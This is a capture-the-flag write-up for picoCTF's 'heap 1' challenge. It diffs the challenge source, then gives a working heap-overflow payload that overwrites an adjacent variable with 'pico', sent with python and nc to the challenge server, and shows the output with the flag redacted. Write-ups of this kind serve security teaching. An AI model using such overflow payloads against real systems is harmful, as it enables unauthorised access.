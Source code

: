 # heap 1 #
 
## Overview ##

100 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Can you control your overflow?

## Approach ##

Binary and source are provided for this challenge.

Inspecting the `chall.c` source file, it looks to be a modified version of **[heap 0](../heap%200/heap%200.md)** challenge, so running a diff between the two to determine the changes :

    diff ../heap-0/chall.c chall.c
    16c16
    <     if (strcmp(safe_var, "bico") != 0) {
    ---
    >     if (!strcmp(safe_var, "pico")) {
    47c47
    <     printf("\nWelcome to heap0!\n");
    ---
    >     printf("\nWelcome to heap1!\n");
    88,99c88
    <   int rval = scanf("%d", &choice);
    <   if (rval == EOF){
    <       exit(0);
    <   }
    <         if (rval != 1) {
    <             //printf("Invalid input. Please enter a valid choice.\n");
    <             //fflush(stdout);
    <             // Clear input buffer
    <             //while (getchar() != '\n');
    <             //continue;
    <       exit(0);
    <         }
    ---
    >   if (scanf("%d", &choice) != 1) exit(0);

So now our challenge is to cause an overflow but construct the overflow such that the `safe_var` rewritten with known data, in this case it must be equal to `"pico"` as seen in the updated conditional statement above.

## Solution ##

A minor modification to our existing attack for **[heap 0](../heap%200/heap%200.md)** to increase the overflow to add the required `safe_var` contents in the correct position (offset is again 32-bytes as obtained from the addresses displayed by the challenge executable), such that the input payload;
- Select menu item 2 "Write to Buffer" = `"2\n"`
- Overflows the `input_data` buffer to reach the start of the `safe_var` buffer by outputting 32 `A` characters = `"A"*32`
- Continue the overflow to write `"pico"` into `safe_var` buffer, completing the input string to be written = `"pico\n"`
- Select menu item 4 "Print Flag" = `"4\n"`

Which yields the following output:

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "pico\n4\n")') | nc tethys.picoctf.net 64934

    Welcome to heap1!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556535d462b0  ->   pico
    +-------------+----------------+
    [*]   0x556535d462d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.